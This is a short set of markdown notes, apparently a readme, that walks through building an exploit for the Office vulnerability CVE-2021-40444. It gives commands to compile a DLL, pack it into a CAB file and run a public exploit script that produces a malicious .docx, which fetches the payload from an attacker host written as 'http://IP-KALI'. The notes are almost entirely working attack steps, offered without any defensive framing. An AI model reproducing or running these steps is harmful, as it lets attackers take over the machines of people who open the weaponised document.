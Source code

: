 
### How to create a dll?
- given file midl.c
i686-w64-mingw32-gcc -shared midl.c -o download.dll


### Create malicious cab file
- given file download.dll
lcab download.dll out.cab



### Create malicious docx file
- given file download.dll in /srv
python3 exploit.py generate /srv/download.dll http://IP-KALI
-> document.docx in /out https://github.com/lockedbyte/CVE-2021-40444